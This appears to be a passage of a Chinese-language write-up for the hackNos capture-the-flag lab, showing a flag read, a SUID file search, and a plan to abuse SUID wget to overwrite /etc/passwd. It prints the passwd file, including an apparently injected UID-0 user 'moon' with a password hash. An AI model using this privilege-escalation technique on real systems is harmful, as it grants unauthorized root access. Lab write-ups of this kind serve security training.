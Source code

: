 ```
www-data@hackNos:/home/james$ cat user.txt
cat user.txt
   _                                  
  | |                                 
 / __) ______  _   _  ___   ___  _ __ 
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |   
  |_|          \__,_||___/ \___||_|   
                                      
                                      

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

```

试着提权，先看看suid提权，需要搜索到，带有s的文件，开始查找。

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20230628232332862](image-20230628232332862.png)

发现wget普通用户也可执行

那么提权的方式就是通过下载目标靶机上的passwd，然后构造一个有root权限的用户加入到构造的passwd文件中，然后使用wget -O将内容重定向输入到/etc/passwd中



首先通过cat /etc/passwd获取靶机密码

```
www-data@hackNos:/var/www/html/drupal$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
james:x:1000:1000:james,,,:/home/james:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
moon:$1$moon$8F2YI9c3zhkkS9SOsKawY0:0:0:root:/root:/bin/bash
```
